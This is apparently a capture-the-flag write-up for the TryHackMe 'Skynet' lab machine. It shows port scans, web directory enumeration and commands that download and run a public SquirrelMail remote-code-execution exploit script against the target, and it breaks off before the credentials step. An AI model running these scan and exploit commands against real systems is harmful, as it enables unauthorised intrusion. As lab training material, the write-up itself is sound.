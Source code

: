 # Skynet

## Intro

The goal is to compromise this Terminator-themed machine. Enumeration reveals multiple services including web, email, and SMB. Through chaining vulnerabilities (password discovery, CMS RFI exploit, and cronjob abuse), we escalate to root.

---

## Rustscan / Nmap

Commands used:

```bash
rustscan -a skynet.thm --ulimit 5000 -- -sC -sV -oN skynet_scan.txt
nmap -sC -sV -p- skynet.thm
```

Results:

```
22/tcp  open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
80/tcp  open  http      Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3      Dovecot pop3d
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap      Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

---

## Web Enumeration

Directory fuzzing with `ffuf` and `dirsearch` found:

```
/squirrelmail  →  http://skynet.thm/squirrelmail/
```
<img width="480" height="270" alt="Screenshot From 2025-08-29 17-19-14" src="https://github.com/user-attachments/assets/c7246fdb-421a-459b-b767-b127d31f9aba" />

SquirrelMail version: **1.4.23** → vulnerable to RCE.

Exploit:

```bash
wget https://raw.githubusercontent.com/xl7dev/Exploit/master/SquirrelMail/SquirrelMail_RCE_exploit.sh -O SquirrelMail_RCE_exploit.sh
chmod +x SquirrelMail_RCE_exploit.sh
./SquirrelMail_RCE_exploit.sh http://skynet.thm/squirrelmail/
```

But we need valid credentials first.

---